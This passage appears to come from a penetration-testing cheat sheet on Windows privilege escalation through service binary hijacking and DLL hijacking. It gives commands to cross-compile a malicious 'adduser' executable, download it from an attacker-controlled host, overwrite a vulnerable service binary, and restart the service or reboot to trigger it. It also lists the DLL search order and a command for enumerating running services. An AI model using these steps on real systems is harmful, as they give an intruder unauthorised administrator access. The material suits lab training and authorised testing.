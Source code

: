 #### Cross-compiling code for 64-bit version of windows. 

```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Replacing vulnerable binary with malicious binary

```
iwr -uri http://<<IP>>/adduser.exe -Outfile adduser.exe
```

```
move .\adduser.exe <<VULNERABLE_BINARY>>
```

#### Check the Startup Type of the vulnerable service

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<<SERVICE_NAME>>'}
```

#### Starting vulnerable sevice

```
net stop <<SERVICE>>
```

```
net start <<SERVICE>>
```

```
net restart <<SERVICE>>
```

If `SeShutdownPrivilege` present:
```
shutdown /r /t 0 
```



### Service DLL Hijacking

####  Standard DLL search order

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

#### Displaying information about the running services

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

